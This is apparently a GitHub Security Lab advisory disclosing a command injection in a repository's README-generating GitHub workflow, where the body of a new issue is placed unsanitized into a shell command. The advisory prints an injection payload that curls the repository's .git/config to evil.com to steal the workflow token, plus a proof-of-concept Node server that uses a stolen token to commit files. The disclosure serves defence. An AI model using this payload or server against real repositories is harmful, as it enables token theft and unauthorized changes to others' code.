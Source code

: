 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-184: Command injection in bdougie/awesome-black-developers workflow</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/14/2020: Report sent to vendor</li>
  <li>10/14/2020: Vendor acknowledges</li>
  <li>10/15/2020: Issue resolved</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The <a href="https://github.com/bdougie/awesome-black-developers/blob/main/.github/workflows/readme.yml">‘Readme’ GitHub workflow</a> is vulnerable to arbitrary command injection.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/bdougie/awesome-black-developers">Awesome-black-developers GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p><a href="https://github.com/bdougie/awesome-black-developers/blob/main/.github/workflows/readme.yml">readme.yml</a> from the main branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-the-body-of-a-public-github-issue-is-used-to-format-a-shell-command">Issue: The body of a public GitHub issue is used to format a shell command</h3>

<p>When a user creates a public issue it automatically starts the <a href="https://github.com/bdougie/awesome-black-developers/blob/main/.github/workflows/readme.yml">readme.yml</a> GitHub workflow. The body of the issue is used without sanitization to format a bash script.</p>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>on:
  issues:
    types: <span class="o">[</span>opened, edited]
...
    - run:  <span class="s1">'echo "${{ github.event.issue.body }}" &gt; temp.txt'</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary command injection into the bash script. For example a user may create an issue with the body <code class="language-plaintext highlighter-rouge">a" &gt; temp.txt; set +e; curl -d @.git/config http://evil.com; sleep 10 #</code> which will exfiltrate the temporary GitHub repository authorization token to the attacker controlled server. Although the token is not valid after the workflow finishes, since the attacker controls the execution of the workflow he or she can delay it to give the malicious server time to modify the repository.<br />
Below is a Proof of Concept server code that receives the GitHub token and adds an arbitrary file to the repository.</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">const</span> <span class="nx">express</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">express</span><span class="dl">'</span><span class="p">)</span>
<span class="kd">const</span> <span class="nx">github</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">@actions/github</span><span class="dl">'</span><span class="p">)</span>

<span class="kd">const</span> <span class="nx">app</span> <span class="o">=</span> <span class="nx">express</span><span class="p">()</span>
<span class="kd">const</span> <span class="nx">port</span> <span class="o">=</span> <span class="mi">8000</span>

<span class="nx">app</span><span class="p">.</span><span class="kd">get</span><span class="p">(</span><span class="dl">'</span><span class="s1">/</span><span class="dl">'</span><span class="p">,</span> <span class="k">async</span> <span class="p">(</span><span class="nx">req</span><span class="p">,</span> <span class="nx">res</span><span class="p">,</span> <span class="nx">next</span><span class="p">)</span> <span class="o">=&gt;</span> <span class="p">{</span>
  <span class="k">try</span> <span class="p">{</span>
    <span class="kd">const</span> <span class="nx">octokit</span> <span class="o">=</span> <span class="nx">github</span><span class="p">.</span><span class="nx">getOctokit</span><span class="p">(</span><span class="nx">req</span><span class="p">.</span><span class="nx">query</span><span class="p">.</span><span class="nx">t</span><span class="p">);</span>

    <span class="k">await</span> <span class="nx">octokit</span><span class="p">.</span><span class="nx">repos</span><span class="p">.</span><span class="nx">createOrUpdateFileContents</span><span class="p">({</span>
      <span class="c1">// this is a targeted attack, repo name can be hardcoded</span>
      <span class="na">owner</span><span class="p">:</span> <span class="dl">"</span><span class="s2">bdougie</span><span class="dl">"</span><span class="p">,</span>
      <span class="na">repo</span><span class="p">:</span> <span class="dl">"</span><span class="s2">bdougie/awesome-black-developers</span><span class="dl">"</span><span class="p">,</span>
      <span class="na">path</span><span class="p">:</span> <span class="dl">"</span><span class="s2">test.txt</span><span class="dl">"</span><span class="p">,</span>
      <span class="na">message</span><span class="p">:</span> <span class="dl">"</span><span class="s2">yet another commit</span><span class="dl">"</span><span class="p">,</span>
      <span class="na">content</span><span class="p">:</span> <span class="nx">Buffer</span><span class="p">.</span><span class="k">from</span><span class="p">(</span><span class="dl">"</span><span class="s2">another day in the office</span><span class="dl">"</span><span class="p">).</span><span class="nx">toString</span><span class="p">(</span><span class="dl">'</span><span class="s1">base64</span><span class="dl">'</span><span class="p">),</span>
      <span class="na">committer</span><span class="p">:</span> <span class="p">{</span><span class="na">name</span><span class="p">:</span> <span class="dl">"</span><span class="s2">bdougie</span><span class="dl">"</span><span class="p">,</span> <span class="na">email</span><span class="p">:</span> <span class="dl">"</span><span class="s2">bdougie@users.noreply.github.com</span><span class="dl">"</span><span class="p">},</span>
    <span class="p">})</span>

    <span class="nx">res</span><span class="p">.</span><span class="nx">sendStatus</span><span class="p">(</span><span class="mi">200</span><span class="p">)</span>

    <span class="nx">next</span><span class="p">();</span>
  <span class="p">}</span> <span class="k">catch</span> <span class="p">(</span><span class="nx">error</span><span class="p">)</span> <span class="p">{</span>
    <span class="nx">next</span><span class="p">(</span><span class="nx">error</span><span class="p">);</span>
  <span class="p">}</span>
<span class="p">});</span>

<span class="nx">app</span><span class="p">.</span><span class="nx">listen</span><span class="p">(</span><span class="nx">port</span><span class="p">,</span> <span class="p">()</span> <span class="o">=&gt;</span> <span class="p">{</span>
  <span class="nx">console</span><span class="p">.</span><span class="nx">log</span><span class="p">(</span><span class="s2">`Listening at http://localhost:</span><span class="p">${</span><span class="nx">port</span><span class="p">}</span><span class="s2">`</span><span class="p">)</span>
<span class="p">})</span>
</code></pre></div></div>
<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-184</code> in any communication regarding this issue.</p>
